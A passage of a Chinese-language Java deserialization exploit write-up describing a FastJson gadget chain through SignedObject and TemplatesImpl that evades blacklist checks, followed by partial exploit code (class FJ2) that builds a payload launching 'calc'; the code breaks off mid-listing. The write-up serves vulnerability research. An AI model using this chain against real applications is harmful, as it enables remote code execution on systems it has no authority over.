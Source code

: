 ```plain
        return obj;
    }
```

而要反序列化的`this.content`可以通过构造方法赋值，并且该方法是一个相对容易触发的`getter`方法，所以**问题转化为了如何触发 SignedObject#getObject。**

#### 解决方案

最好找只依赖于`FastJson`的包的`gadget`，使得攻击面最大。

而正好`JsonObject#toString`可以触发任意`getter`方法，而`toString`又可以通过`BadAttributeValueExpException#readObject`调用，因此整条链子就通了。

**gadget**

```plain
* 绕过第一次的 TemplatesImpl 黑名单检查
    BadAttributeValueExpException#readObject
    JSONOBJECT#toString
    SignedObject#getObject
* 二次反序列化
    * 引用绕过 JSON 自带 resolveClass 的黑名单检查
        BadAttributeValueExpException#readObject
        JSONArray#toString
        TemplatesImpl#getOutputProperties
            TemplatesImpl#newTransformer
            TemplatesImpl#getTransletInstance
            TemplatesImpl#defineTransletClasses
            TemplatesImpl#defineClass
```

**exp**

```plain
package gadget.fastjson;

import com.alibaba.fastjson.JSONArray;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import gadget.doubleunser.MyInputStream;
import util.GadgetUtils;
import util.ReflectionUtils;
import util.SerializerUtils;

import javax.management.BadAttributeValueExpException;
import java.io.ByteArrayInputStream;
import java.io.ObjectInputStream;
import java.io.Serializable;
import java.security.KeyPair;
import java.security.KeyPairGenerator;
import java.security.Signature;
import java.security.SignedObject;
import java.util.ArrayList;
import java.util.List;

public class FJ2 {
    public static void main(String[] args) throws Exception{

        List<Object> list = new ArrayList<>();

        TemplatesImpl templates = GadgetUtils.createTemplatesImpl("calc");

        list.add(templates);          //第一次添加为了使得templates变成引用类型从而绕过JsonArray的resolveClass黑名单检测

        JSONArray jsonArray2 = new JSONArray();
        jsonArray2.add(templates);           //此时在handles这个hash表中查到了映射，后续则会以引用形式输出

        BadAttributeValueExpException bd2 = new BadAttributeValueExpException(null);
```